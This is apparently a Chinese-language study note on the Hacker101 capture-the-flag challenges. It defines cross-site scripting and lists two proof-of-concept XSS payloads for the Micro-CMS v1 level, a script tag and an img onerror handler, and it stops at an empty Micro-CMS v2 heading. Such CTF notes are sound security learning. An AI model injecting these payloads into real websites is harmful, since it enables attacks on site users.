 ```yaml
---
title: Hacker 101
date: 2023-5-20
tags:
  - Hacking
---
```


[Hacker101 CTF](https://ctf.hacker101.com/ctf)

## XSS

跨站脚本漏洞

<img src="./assets/6230889-834e76bc8c471138.jpg">

### Micro-CMS v1

CMS（Content Management System）：网站内容管理系统

通过js脚本直接注入html，这是最简单常用的POC（Proof of Concept，漏洞验证）

```html
<script>alert(\xss)</script>
```

通过 img 标签的错误事件（随便请求一张图片）注入js事件

```html
<img src=x onerror=alert(xss)> 
```

### Micro-CMS v2
